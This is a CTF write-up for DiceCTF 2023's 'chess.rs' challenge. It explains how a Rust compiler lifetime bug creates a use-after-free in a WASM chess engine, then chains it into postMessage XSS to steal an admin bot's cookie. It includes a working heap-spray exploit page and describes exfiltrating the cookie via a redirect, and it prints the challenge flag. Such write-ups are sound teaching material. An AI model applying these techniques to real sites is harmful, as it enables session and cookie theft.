






# chess.rs
Authors: Leo and Mullaghmore

chess.rs was one of the harder pwn problems in dice 2023, ending the competition with only 2 solves.
We got first blood 😎, which is pretty cool.

## Problem statement
```
🚀 blazingfast rust wasm chess 🚀

(the flag is in the admin bot's cookie)

chessrs.mc.ax

Admin Bot
```
We are given two websites ([chessrs.mc.ax](https://chessrs.mc.ax) and [Admin Bot](https://adminbot.mc.ax/pwn-chessrs)), as well as the [source code](https://static.dicega.ng/uploads/4a4c9610066ea651ad81ea8d00fc699c937b0e315b3e4a7e09dc359d7a991039/chessrs.tar.gz) for [chessrs.mc.ax](chessrs.mc.ax). chessrs.mc.ax appears to be a site where we can play chess against ourselves:

The admin bot website is just a form. We input a url, and then presumably the bot creates a headless chrome instance and visits our website with (as the prompt informs us) the flag in its cookie:

Given the setup of this problem, before we even begin exploiting, we can guess that in order to get the flag, we'll have to (1) get XSS on an mc.ax domain, (2) ask the admin bot to visit our XSS primed site, and (3) steal its mc.ax cookie, which contains the flag. Parts (1) and (2) will end up being the hard parts.

## chessrs.mc.ax source code
Looking at the provided chessrs source code, we see that it is split into two rust crates: `app` and `chess-wasm`. `app` contains the server for the application as well as its javascript and html. `chess-wasm` contains a wasm module that keeps track of games of chess, determining what moves are legal, etc.
### app
The rust in app is extremely minimal, it's just a static site server that serves requests to the `app/static` folder:
```rust
#[tokio::main]
async fn main() {
    let port: u16 = std::env::var("PORT")
        .unwrap_or_else(|_| "8082".to_string())
        .parse()
        .expect("Invalid PORT variable");

    let spa = SpaRouter::new("/", "static");
    let app = Router::new()
        .layer(middleware::from_fn(cache_mw))
        .merge(spa);

    let addr = SocketAddr::from(([0, 0, 0, 0], port));
    println!("pwn/chessrs listening on http://localhost:{}", port);
    axum::Server::bind(&addr)
        .serve(app.into_make_service())
        .await
        .unwrap();
}
```
There doesn't seem to be anything exploitable here, so let's move on to what's in `app/static`. The static directory contains what seems to be the entirely client-sided source code for chess.mc.ax. Of note, it contains two html files, `engine.html` and `index.html`, as well `game.js`. Inspecting `index.html`, we see that this client has quite the interesting setup, containing:
```html
<script src="/js/game.js" type="module"></script>

<iframe src="/engine.html" id="engine"></iframe>
```
So, what's in the iframe? Inspecting both, we start to get an idea of what's going on:
```html
<script>
import * as chess from "/js/chess_wasm.js";
await chess.default();

window.onmessage = (e) => {
    if (typeof e.data !== "object") return;
    e.source.postMessage(chess.handle(JSON.stringify(e.data)), e.origin);
};

window.top.postMessage("ready", "*");
</script>
```
The `engine.html` iframe acts as a little server embedded in the client, receiving messages with `window.onmessage`, processing them using whatever the `chess` module is, and then sending the result back using `e.source.postMessage`. 

A glance at `chess_wasm.js` (or `build.sh`, the provided build script), the chess module, reveals that it's just a wrapper for the wasm generated by the `chess-wasm` crate, so the `chess.handle` call that processes a request probably just maps to a `handle` function in rust. 

The last line, `window.top.postMessage`, sends a message to the top-level window that contains this iframe (i.e. `game.js` and `index.html`). Presumably, this is both to inform the top-level window that the engine is ready to serve requests and also give the top-level window a reference to the engine that it can call `postMessage` on. Note that this does not necessarily have to `index.html`, because if we, for example, write our own website with `index.html` in an iframe, we would be the top-level window. But, we're getting ahead of ourselves. 

Anyways, now that we've got a general idea of how this site is structure, let's look at `game.js` to see how the top-level window uses the engine (the following has some omissions, indicated by `...`):
```js
...
const alphabet = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789";
const id = [...crypto.getRandomValues(new Uint8Array(16))].map(v => alphabet[v % alphabet.length]).join("");
...
const send = (msg) => engine.postMessage({ ...msg, id }, location.origin);
...
window.onmessage = (e) => {
    if (e.data === "ready") {
        send({ type: "init" });
        return;
    }

    if (e.data.id !== id) {
        return;
    }

    if (e.data.type === "init") {
        .../* 
        Set up the interactive chess board html for the player
        The only possibly useful thing this does for us is 
        send play_move messages to the engine when they play a
        move using the UI, but we wont end up caring about that
        */...

        send({ type: "get_state" });
    }

    if (e.data.type === "play_move") {
        send({ type: "get_state" });
    }

    if (e.data.type === "error") {
        $("#error").html(e.data.data);
        send({ type: "get_state" });
    }

    if (e.data.type === "get_state") {
        state = e.data.data;
        
        ... update the chess board ...
    }
};
```
So, the game (hosted on the chess.mc.ax website, containing the engine iframe) waits until it receives the ready message sent by the engine, and then processes requests and responses to do things like create the board, update the board, and display errors. What stands out most about this is how it handles errors:
```js
$("#error").html(e.data.data);
```
When it receives an error message, it will set the contents of the #error element to the data of the error message. This could be anything, including some javascript! So, if we can get a message of our own design sent to this window, we will have XSS. Luckily, this is potentially pretty easy, right? We can create make our own site something like:
```html
<!-- include index.html and game.js in an iframe -->
<iframe src="https://chessrs.mc.ax/" id="game" width="800px" height="800px"></iframe>
<script>
    // send the game window iframe our error message
    game.contentWindow.postMessage({type: "error", data: "Some XSS that yoinks the cookie"});
</script>
```
Because game.js and index.html are in an iframe that's hosted on chessrs.mc.ax, our XSS should properly have access to the admin bot's flag cookie, even though our outer website won't. Yay! We've gotten XSS, and we've got the flag, right? No. Unfortunately, game.js refuses to process a message (other than the ready message) if it does not have a randomly generated id that it includes in its requests:
```js
...
const alphabet = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789";
const id = [...crypto.getRandomValues(new Uint8Array(16))].map(v => alphabet[v % alphabet.length]).join("");
...
const send = (msg) => engine.postMessage({ ...msg, id }, location.origin);
...
window.onmessage = (e) => {
    if (e.data === "ready") {
        send({ type: "init" });
        return;
    }

    if (e.data.id !== id) {
        return;
    }

    ...
```
Because game.js only sends messages (and thus its id) to the engine, our only option is to somehow get game.js's id from the engine, which we'll have to look at the `chess-wasm` crate (i.e. the source code for the engine wasm module). Before we do that, though, below are two artfully crafted diagrams that hopefully help illustrate the message passing architecture of the chess.mc.ax client:



### chess-wasm
It is now time to churn through the `chess-wasm` source code to see if we can figure out a way to get game.js's id, and also why this challenge is pwn and not web. 

The first thing to note about the chess-wasm module is that every rust file within is marked with:
```rust
#![forbid(unsafe_code)]
```
This line does what it says: the compiler will not allow unsafe code to be included. A quick check of the dependencies also verifies that there's probably not any unsound unsafe there, too. If you're unfamiliar with rust: one of rust's core guarantees and selling points is that memory unsafety or undefined behavior (e.g. use after frees) cannot happen without code explicitly marked as unsafe. If you're familiar with rust: this raises the question, how could this possibly be pwnable?

At first, I had no idea, but just because there's no memory unsafety does not necessarily mean there's no logical errors. So, let's get on with understanding chess-wasm's structure.

chess-wasm exports a `handle` function (the one called by engine.html) from lib.rs that does all the request processing.
```rust
#[wasm_bindgen]
pub fn handle(input: String) -> JsValue {
    ...
}
``` 
When handling a message, chess-wasm acquires an `EngineState`, a struct representing the state game of chess, from this static hashmap using the id field of the message:
```rust
pub static STATE: Lazy<Mutex<HashMap<String, EngineState>>> =
    Lazy::new(|| Mutex::new(HashMap::new()));
```
This explains what game.js's id is for: identifying which game.js's EngineState out of the potentially multiple chess games the engine is serving requests for. After acquiring (or creating) the static EngineState for the client, chess-wasm performs the requested operation on it.

When that operation is the init operation, something suspicious ඞ seems to happen. Particularly, something suspicious happens in the `Game::start`, which creates a new `Game` struct to be stored in the client's EngineState:
```rust
static DEFAULT_FEN: &str = "rnbqkbnr/pppppppp/8/8/8/8/PPPPPPPP/RNBQKBNR w KQkq - 0 1";

fn validate_fen<'a, 'b>(fen: &'b str, default: &'a &'b str) -> (StartType, &'a str) {
    match fen.parse::<Fen>() {
        Ok(_) => (StartType::Fen, fen),
        Err(_) => (StartType::Fen, default),
    }
}

fn validate_epd<'a, 'b>(epd: &'b str, default: &'a &'b str) -> (StartType, &'a str) {
    match epd.parse::<Epd>() {
        Ok(_) => (StartType::Epd, epd),
        Err(_) => (StartType::Fen, default),
    }
}

impl ChessGame for Game<'_> {
    fn start(init: &str) -> Self {
        let mut validator: fn(_, _) -> (StartType, &'static str) = validate_fen;
        if init.contains(';') {
            validator = validate_epd;
        }
        let data: (StartType, &str) = validator(init, &DEFAULT_FEN);
        Game {
            start_type: data.0,
            start: data.1,
            moves: Vec::new(),
        }
    }
    ...
}
```
The lifetimes in the type signatures of `validate_epd` and `validate_fen` are quite strange. In order to ensure memory safety, rust tracks, as a first class language construct, lifetimes. Basically, lifetimes (which can be thought of as stored at the type level, notated as `'lifetime`) indicate how long a piece of data is usable. If you try to access a variable after its lifetime has expired (as determined by the compiler), your program is invalid and won't compile, which prevents use after frees.
```rust
fn validate_epd<'a, 'b>(epd: &'b str, default: &'a &'b str) -> (StartType, &'a str)
```
So, what do the lifetimes of this function mean? It takes in a reference of lifetime `'b`, a reference of lifetime `'a` to a reference of lifetime `'b`, and returns a reference of lifetime `'a`. In other words, from the perspective of the compiler, it changes the lifetime of `epd` or `*default` from `'b` to `'a` on return. That sounds fine, albeit weird and convoluted at first, but it starts to sound a lot worse when we review how the validate functions are used:
```rust
impl ChessGame for Game<'_> {
    fn start(init: &str) -> Self {
        let mut validator: fn(_, _) -> (StartType, &'static str) = validate_fen;
        if init.contains(';') {
            validator = validate_epd;
        }
        let data: (StartType, &str) = validator(init, &DEFAULT_FEN);
        Game {
            start_type: data.0,
            start: data.1,
            moves: Vec::new(),
        }
    }
    ...
}
```
The above code asserts that the `'a` lifetime used by the validate functions is `'static` when it defines the `validator` variable. But, when it calls `validator`, it asserts that the `'b` lifetime is the lifetime of `init`, which can be anything. This means that somehow this code promotes a string of arbitrary lifetime to `'static`. This is unsound, because elsewhere `init` could be freed when it reaches the end of its lifetime, but the returned `Game` struct will still have a reference to it. To make what's happening more explicit, we can add the following explicit lifetime bounds to the code:
```rust
fn start<'b>(init: &'b str) -> Game<'static> {
    // validator erases the 'b lifetime, returning something that's 'static
    let mut validator: fn(&'b str, &'static &'b str) -> (StartType, &'static str) = validate_fen;
    if init.contains(';') {
        validator = validate_epd;
    }
    // we give validator a reference to a &'i str, but it returns it as an &'static str
    let data: (StartType, &'static str) = validator(init, &'static DEFAULT_FEN);
    Game {
        start_type: data.0,
        start: data.1,
        moves: Vec::new(),
    }
}
```
This SHOULD NOT compile!!! We SHOULD NOT be able to return a static reference to something that is not static. Tragically, though, [a bug in the compiler](https://github.com/rust-lang/rust/issues/25860) allows it :(. At least I can console myself with the fact that it let me solve this challenge.

If we look to where `Game::start` is called, we see what string it is called with and how this gives us a use after free (some type signatures are edited to be more explicit):
```rust
fn init<(msg: EngineMessage) -> anyhow::Result<EngineResponse> {
    // Copy the data field from the request message into our stack frame
    let data: String = get_data(&msg.data).unwrap_or_default();
    ...
    let mut state = STATE.lock().unwrap();
    ...

    // We create a Game that has a static lifetime
    // and insert it into the static state hashmap.
    let game = Game::<'static>::start(&data);
    state.insert(msg.id.clone(), EngineState { game });

    Ok(EngineResponse {
        new_type: None,
        data: Some(json!("ready")),
    })
    // BUT because data, the string which we pass
    // to Game::start, was stored in the stack frame of function (after it was created by get_data),
    // data gets freed here.
}
```

## Leaking game.js's id
After the `init` function is called, the EngineState corresponding to msg.id in STATE will have its .game.start field (an &str) pointing to a free chunk. Unfortunately, this is an immutable pointer, so we can't follow a standard heap exploitation path to get RCE, but fortunately, we don't need RCE. If you remember back to our analysis of the app crate, all we need is the engine to leak game.js's id. We can do this by setting the heap up such that when game.js makes a request to the engine, game.js's id allocates on the free chunk that the UAFed `STATE[our id].game.start` is pointing to. Then, we can get the engine to send us a message containing `STATE[our id].game.start`, which is now equivalent to game.js's id. 

The second part of that is fairly easy. In `init`, if the game corresponding to the message's id is already created, the engine will send us a response containing `STATE[our id]`, which obviously contains `STATE[our id].game.start`:
```rust
let mut state = STATE.lock().unwrap();

// If the state for this id already exists, return an error
if let Some(state) = state.get(&msg.id) {
    return Ok(EngineResponse {
        new_type: Some("error".to_string()),
        // That error contains our state
        data: Some(json!(format!("The game '{:#?}' already exists", state))),
    });
}
```
The first part of our plan to leak game.js's id is much more annoying. Much like C++, allocations and frees in rust (especially when using libraries) are much less transparent than they are in plain C, so manipulating the heap such that game.js's id allocates over our UAF is fairly difficult. Thus, if you want to find the perfect sequence of messages to send to the engine to elegantly set up the heap properly and leak the id, you'll have to start debugging. If instead you are me six hours later, you'll have to come to the realization that you've been wasting your time and it would be much easier to just fuzz the engine with requests until the id happens to be allocated on our UAF. Using this second method, we can leak the id with the following exploit website:
```html
<iframe src="https://chessrs.mc.ax/" id="game" width="800px" height="800px"></iframe>

<script>
    let lets = "ABCDEFGH";

    async function main() {
        // Wait for the ready message to get sent to us from the engine
        let engine = await new Promise(res => { onmessage = (e) => res(e.source) })
        
        // Spam the engine with init requests from different clients
        // (each one uses a different id)
        for (let i = 0; i < lets.length; i++) {
            // This will trigger the UAF because 
            // it has data field set to a valid chess string
            // (it won't use the default start string) 
            // To increase chances of success, we use a valid
            // chess string that is the same length as 
            // game.js's id.
            engine.postMessage({
                type: 'init', 
                data: '8/8/8/8/8/8/8/8 ', 
                id: lets[i],
            }, '*')
    
            await new Promise(res => setTimeout(res, 10))

            // This won't trigger the UAF, but it's
            // part of the fuzzing routine that I found to work.
            // You know what they say, "garbage in, flag out"
            engine.postMessage({
                type: 'init', 
                id: lets[i].repeat(16)
            }, '*') 

            await new Promise(res => setTimeout(res, 10))
        }

        await new Promise(res => setTimeout(res, 10))

        // Send the ready message to game.js so that
        // it will send its own init message to engine,
        // allocating its id.
        game.contentWindow.postMessage('ready', '*')

        await new Promise(res => setTimeout(res, 100))

        // Now re-init all the clients that had the UAF
        // Hopefully one of them had their UAF
        // overwritten by game.js's id.
        for (let i = 0; i < lets.length; i++) {
            engine.postMessage({
                type: 'init',
                id: lets[i]
            }, '*')
        }
    }

    // Print out all the error responses from 
    // our re-inits. If things worked out for us,
    // one of them will contain game.js's id
    addEventListener('message', (e) => {
        if (e.data.type === "error") {
            console.log(e.data.id, e.data.data);
        }
    })

    main()
</script>
```
If we host this on a simple static site server and visit it, we see that we have successfully leaked game.js's id for the client with id "H":

## Stealing the admin cookie with XSS

Finally, onto the ~~easy~~ web part!

Once we have access to the game id, there is still one more obstacle we must overcome before we get the flag.

Since around 2020, most browsers have begun setting `SameSite=Lax` on cookies by default. `SameSite=Lax`, unlike the previous default of `SameSite=None`, prevents cookies from being accessed from inside an iframe, even when the iframe is on the right domain. Although we can trivially get XSS on the iframe by sending a simple `onerror` based payload, if the iframe can't access the cookie, we still can't get the flag.

Luckily, we don't need the iframe to access the cookie directly. Instead, we can open `chessrs.mc.ax` in a new tab (which does get the cookie, as it's a top-level navigation) and have the iframe access the `window.document.cookie` property of the new tab. This is possible thanks to a concept called the "Same-Origin Policy," which dictates that windows on the same origin can access each others' contents.

In order for the iframe to have a reference to the new tab, we have to open the new tab from inside the iframe. We can send an XSS payload opening and storing a reference to the new tab in the `window.w` property like so:

```js
game.contentWindow.postMessage({ type: 'error', id: id, data: "" }, '*')
```

After a short delay to let the new tab finish loading, we can then access its document.cookie property from inside the original iframe. In order to receive the cookie, I chose to simply redirect the iframe to a website we control, sending the cookie in the path of the URL:

```js
game.contentWindow.postMessage({ type: 'error', id: id, data: "" }, '*')
```

After submitting our attacking website to the admin bot, a GET request appears in our request bin containing our hard-earned flag:

```
dice{even_my_pwn_ch4lls_have_an_adm1n_b0t!!!}
```
